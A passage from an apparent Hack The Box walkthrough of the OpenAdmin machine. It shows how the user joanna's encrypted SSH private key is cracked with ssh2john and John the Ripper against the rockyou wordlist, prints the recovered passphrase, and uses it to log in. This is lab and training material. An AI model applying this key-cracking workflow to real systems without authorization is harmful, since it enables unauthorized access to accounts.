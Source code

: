 ## User (joanna)

Joanna's private key is encrypted:

![encrypted rsa key](/assets/img/htb/machines/linux/easy/openadmin/enc.png)

While we don't know the password of this private key we cannot log in as joanna.

### ssh2john

{% highlight bash %}
$ /usr/share/john/ssh2john.py joanna_rsa > joanna_rsa.john
$ john joanna_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_rsa)
1g 0:00:00:01 DONE (2021-01-01 22:27) 0.5586g/s 8012Kp/s 8012Kc/s 8012KC/s  0125457423 ..*7¡Vamos!
Session completed
{% endhighlight %}

`bloodninjas` is `joanna_rsa`'s password. We can now log in as **joanna**.

![ssh joanna](/assets/img/htb/machines/linux/easy/openadmin/bloodninjas.png)
